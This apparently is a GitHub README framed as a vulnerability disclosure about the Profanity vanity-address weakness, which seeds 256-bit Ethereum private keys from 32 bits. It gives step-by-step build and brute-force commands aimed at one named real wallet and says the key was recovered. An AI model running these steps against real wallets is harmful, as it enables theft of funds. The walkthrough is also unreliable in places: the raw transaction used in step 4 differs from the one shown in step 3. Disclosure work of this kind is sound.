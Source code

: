 
## Disclosure

Hi all, I'm Nate, a security researcher and a master's student in Cyber Security, Threat and Forensics.

I have created this private repository with the required code dependencies specifically for demonstration to provide a proof of concept for the vulnerability I am disclosing.


## Brief Introduction

Profanity is specialised software for generating Ethereum vanity addresses or "fancy looking" addresses. It harnesses GPU capabilities using OpenCL to efficiently perform this task. The process begins by generating a random private key, then computes the corresponding public key, and ultimately derives the Ethereum address from it. This method benefits from the parallel processing capabilities of GPUs, enhancing the speed and efficiency of creating customized Ethereum addresses.

However, the issue with Profanity is that it uses a random 32-bit vector to seed 256-bit private keys, making it possible to brute-force private keys for wallets generated using this tool.

Read more about the exploit in [this blog post](https://medium.com/amber-group/exploiting-the-profanity-flaw-e986576de7ab#:~:text=Profanity%20is%20an%20Ethereum%20vanity,then%20derives%20the%20Ethereum%20address.).

## Profanity Brute-force
This tool is designed to exploit a vulnerability in the method used for generating certain vanity Ethereum addresses. It aims to reconstruct the private keys of wallets created through interfaces that utilised the Profanity tool. This vulnerability arises from specific flaws in Profanity's address generation process.

## How I Discovered This Wallet Is Affected

I reported an approval exploit in one of GSR's wallets nearly two months ago, where one of the wallets had inadvertently granted a vulnerable contract unlimited allowance to spend its holdings. I reviewed all the addresses they had [labeled on Spotonchain](https://platform.spotonchain.ai/en/entity/807) and noticed the padding style of [this particular address](https://etherscan.io/address/0x8811bfb8bb23a64f7dfa0a545654ab942dc4ad30).

I noticed the repetition of numbers and characters in the address, which led me to suspect it might have been generated using a vanity address creation interface. It was clear that Profanity was not used in generating this address. However, the interface used to generate the address might have utilised a random 32-bit vector to seed the 256-bit private key similar to how Profanity works. Prompted by this, I began examining various psotmortems of previously exploited vanity addresses. My aim was to reverse engineer the methods used in those instances to achieve a similar outcome with this address.

I started the brute-force process on the address "0x8811BfB8BB23a64f7dFa0a545654Ab942dc4AD30" to uncover its corresponding private key, following these steps:

## Requirements
- A machine equipped with a high-performance GPU.
- A machine with a minimum of 32GB of RAM.
- A machine that will not disrupt ongoing workflows.
- A machine that is not critical for your work, as the intensive GPU usage may lead to system crashes.

### 1. Build the project
    
    $ git clone https://github.com/0xmstore/GSR
    $ cd GSR
    $ make


### 2. Compute public keys
Run the following command to precompute all seed public keys into `cache` directory.

    $ mkdir cache
    $ ./profanity.x64 -h 

### 3. Find any signed transaction

You need to have a signed transaction in order to reconstruct a public key. You can find it using [Etherscan](https://etherscan.io/).

Let's use the most recent transaction with the hash `0xaf054276bde22dbd41d05214053f24993866d2d2aab5677dcaef490788a01627` and click on `Get Raw Tx Hex` to obtain the raw transaction.

<img width="971" alt="screengrab" src="https://github.com/0xmstore/GSR/assets/99334291/65424c25-e42d-4fd4-b20b-2f75a79e3363">
 

Raw Tx Hex: `0x02f8b10109843b9aca008501ee8cd8b58301189c946e2a43be0b1d33b726f0ca3b8de60b3482b8b05080b844a9059cbb000000000000000000000000a722549ae344d5bf4333aa092c389928f286ce2b000000000000000000000000000000000000000000001fc3842bd1f071c00000c080a08ec7259af0cef057e4fdc04fa15a81ac00a39f5d0c890ed9e2db5ecf77e08fdea03f95de3f8c93bd0112852f9fa50a101853e9c1c7dbecde08d746ebcf2fba74d2`

### 4. Reconsutruct the public key

To obtain the public key from the raw transaction, deploy the `pubkey.py` script.

    $ pip install -r requirements.txt
    $ python pubkey.py -t 0x02f87201048459682f0085013d2a27d082520894000000000d1c18a47a23c5826b2567c864a7d414880328ddd5c0dafd7880c001a0c7065b5d54ebcfb3a4325bbd80e0a352500784e2b12cfee614f8ab179ef9cd479fd78e0651f4f408db5420c785204b704ac14de95b18efb913036d9845906da2

### 5. Run search

Once you have successfully recover the publickey, the next step is to run the search using the command line below

    $ ./profanity.x64 --reverse --steps 200000 --cache --target publickey

### 6. Results

This search took approximately 21 days of intermittent running of the script to be able to generate the private key  due to my MacBook M2 Pro's GPU power limitations. Successfully generating a private key signals a vulnerability. **However, if it fails to do so, it does not necessarily indicate that the wallet is safe!** You can try running step 5 with additional steps.


## Mitigation

To mitigate this issue, it's recommended to remove this wallet from your list of proprietary operational wallets. Given that anyone with sufficient resources and expertise could potentially brute-force the private key, there's a risk of unauthorised access to the funds held in this wallet.

Please let me know if any part needs further explanation or clarification.


## Disclaimer

The vulnerability details disclosed in this document are intended solely for understanding and resolution. The information is confidential and should be treated as such, not to be disclosed or discussed outside authorised channels. It is provided in good faith to support security awarness and should not be used for any unauthorised or unlawful activities. The author assumes no liability for any actions taken by individuals or entities based on this information, and any misuse of this disclosure may be subject to legal action. All information herein have been reported responsibly and ethically to the appropriate parties.


Sincerely,
Nate
